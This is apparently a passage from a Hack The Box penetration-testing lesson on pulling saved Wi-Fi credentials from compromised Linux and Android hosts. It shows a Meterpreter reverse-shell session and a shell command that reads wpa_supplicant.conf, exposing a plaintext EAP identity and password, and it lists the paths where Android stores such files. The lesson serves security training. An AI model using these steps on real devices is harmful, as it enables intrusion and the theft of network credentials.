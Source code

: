 [connection]
id=HTB-Corp
uuid=g3bb5011-1234-1gbd-a291-b6a154eafb26
type=wifi
interface-name=wlan0

[wifi]
mode=infrastructure
ssid=HTB-Corp

[wifi-security]
auth-alg=open
key-mgmt=wpa-eap

[802-1x]
eap=peap;
identity=HTB\Sentinal
password=&lt;SNIP&gt;
phase2-auth=mschapv2
</code></pre>
<p>Here, we can see the network’s authentication method, identity, and password (stored in plaintext).</p>
<hr/>
<h3>Retrieving Wi-Fi Credentials from Android</h3>
<p>If we gain a session on an Android device, we may be able to retrieve the saved Wi-Fi password. However, this depends on several factors, including the device manufacturer, Android version, and whether the device is <a href="https://en.wikipedia.org/wiki/Rooting_(Android)">rooted</a>.</p>
<p>Once we establish a Meterpreter session, we can attempt to access the stored Wi-Fi credentials. Once inside the shell, we can read the <code>wpa_supplicant.conf</code> file inside <code>/data/misc/wifi/</code>, which stores Wi-Fi credentials on many Android devices:</p>
<pre><code class="language-shell-session">[!bash!]$ run

[*] Started reverse TCP handler on 192.168.0.1:4041 
[*] Sending stage (78189 bytes) to 192.168.0.18
[*] Meterpreter session 1 opened (192.168.0.1:4041 -&gt; 192.168.0.18:40258) at xxxx-xx-xx xx:xx:xx -0400

meterpreter &gt; shell
Process 1 created.
Channel 1 created.

cat /data/misc/wifi/wpa_supplicant.conf

ssid="HTB-Corporate-Wireless"
key_mgmt=WPA-EAP
eap=PEAP
identity="user-5645465"
password="a8wd4a798w4d84aw98d49a8w4d98aw4d984aw89d4awd"
phase1="peapver=0"
phase2="auth=MSCHAPV2"
</code></pre>
<p>Some Android devices, such as Samsung Galaxy phones, encrypt the <a href="https://android.stackexchange.com/questions/95923/decrypting-wpa-supplicant-conf-on-samsung-galaxy-mobiles">wpa_supplicant.conf</a> file, making it more difficult to retrieve stored Wi-Fi credentials. However, many other manufacturers store this file in plain text, allowing for easier extraction.</p>
<p>Different Android versions and manufacturers store Wi-Fi credentials in various locations, including:</p>
<p>Plaintext Storage (Older Devices &amp; Some Vendors):</p>
<ul>
<li>
<code>/data/misc/wifi/wpa_supplicant.conf</code>
</li>
<li>
<code>/data/wifi/bcm_supp.conf</code>
</li>
</ul>
<p>XML-Based Storage (Newer Devices):</p>